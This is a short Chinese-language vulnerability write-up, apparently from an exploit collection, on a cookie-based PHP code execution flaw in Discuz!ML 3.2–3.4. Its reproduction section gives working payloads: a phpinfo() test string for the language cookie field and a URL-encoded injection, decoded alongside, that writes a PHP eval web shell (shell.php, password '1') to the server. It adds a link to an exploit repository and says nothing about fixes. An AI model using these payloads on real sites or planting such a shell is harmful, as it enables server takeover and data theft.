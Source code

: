 Discuz!ML 3.x 代码执行漏洞
==========================

一、漏洞简介
------------

漏洞类型：代码执行漏洞漏洞原因：Discuz!ML
系统对cookie中的l接收的language参数内容未过滤，导致字符串拼接，从而执行php代码。

二、影响范围
------------

-   Discuz!ML V3.2-3.4

三、复现过程
------------

cookie字段中会出现xxxx\_xxxx\_language字段，根本原因就是这个字段存在注入，导致的RCE抓包找到cookie的language的值修改为

    xxxx_xxxx_language=sc'.phpinfo().'

getshell

    %27.%2Bfile_put_contents%28%27shell.php%27%2Curldecode%28%27%253C%253Fphp%2520eval%2528%2524_POST%255B%25221%2522%255D%2529%253B%253F%253E%27%29%29.%27

实际为：

    '.+file_put_contents('shell.php',urldecode('<?php eval($_POST["1"]);?>')).'

即可在路径下生成shell.php，连接密码为1

https://github.com/ianxtianxt/discuz-ml-rce
-------------------------------------------

